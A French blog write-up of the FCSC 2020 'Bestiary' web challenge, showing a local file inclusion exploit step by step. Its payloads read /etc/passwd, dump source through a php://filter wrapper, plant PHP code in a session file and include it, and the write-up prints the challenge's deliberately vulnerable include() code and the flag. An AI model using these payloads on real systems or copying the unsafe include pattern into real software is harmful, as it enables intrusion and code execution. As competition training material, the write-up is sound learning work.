 ```yaml
---
title: FCSC 2020 - Web - Bestiary
excerpt: Write-up du challenge web Bestiary du France Cybersecurity Challenge 2020
tags: [CTF, FCSC, writeup, web]
categories: Write-ups
comments: true
---
```


<img src="/img/FCSC_logo.png" width="300" class="center-image">
Le French CyberSecurity Challenge est une compétition en ligne organisée par l’Agence National de la Sécurité des Systèmes d’Informations (ANSSI). Ce CTF a pour but de préselectionner 30 joueurs: 15 juniors (entre 15 et 20 ans) et 15 seniors (entre 21 et 25 ans).
<hr>
<img src="/img/FCSC_bestiary.png"  class="center-image">

Bestiary a été mon challenge préféré, l'exploitation de la LFI était très intéressante !  

C'est un site où l'on peut simplement effectuer des recherches sur des monstres.

<img src="/img/FCSC_home.png"  class="center-image">  

On devine assez rapidement que la paramètre 'monster' de la requête GET est à injecter.  
On test un payload classique pour voir s'il est possible d'avoir une LFI : `http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=../../../../etc/passwd`

<img src="/img/FCSC_lfi_etc.png"  class="center-image">

On à donc une LFI :)  
On tente d'afficher le code source avec un filter PHP.
`http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php`

<img src="/img/FCSC_bestiary_base.png"  class="center-image">

On décode tout ça en base64 et on obtient le code source la page `index.php` :
```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> 
    <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

En analysant le code source, on remarque plusieurs choses intéressantes :
*	La fonction `strpos()` est utilisée pour vérifier que le payload ne contienne pas la chaîne de caractères "flag"
*	Le répertoire où sont stockées les sessions est spécifié "en dur" via la fonction `session_save_path()`, alors qu'habituellement, ces dernières sont stockées ...
*	Le flag est stocké dans le fichier `flag.php`

Pour accéder à une session, il faut rajouter le préfix `sess_` au numéro de session stockées dans notre navigateur.  
*Par exemple, j'avais la session c70091bbb2c30521812c43b37040255a, sur le serveur, la session est stockée dans le fichier /sessions/sess_c70091bbb2c30521812c43b37040255a*

<img src="/img/FCSC_bestiary_session.png"  class="center-image">

On peut voir le contenu de ma session sur la capture d'écran ci-dessus.   
Comme en PHP, tout fichier inclut via la fonction `include()` est traité comme un fichier PHP, on va pouvoir injecter du code PHP dans le cookie PHPSESSID afin de le faire exécuter au serveur lorsque l'on va accéder à la session.  

Je vais utiliser le payload suivant pour lire le fichier contenant le flag : 
`<?php var_dump(file_get_contents(base64_decode('ZmxhZy5waHA='))); ?>`  
J'ai encodé le nom du fichier en base64 à cause de la fonction `strpos()` qui détecte si la chaîne "flag" est présente dans le paramètre GET 'monter'.   
J'injecte donc ce payload dans ma session en effectuant la requête suivante : `http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=%3C?php%20var_dump(file_get_contents(base64_decode(%27ZmxhZy5waHA=%27)));%20?%3E`.

À ce stage, il ne me reste plus qu'à inclure le fichier contenant les informations de ma session, afin que le code PHP soit exécuté.
`http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=sessions/sess_c70091bbb2c30521812c43b37040255a`

On affiche les sources et voilà !  

<img src="/img/FCSC_bestiary_flag.png"  class="center-image">

Flag `FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}`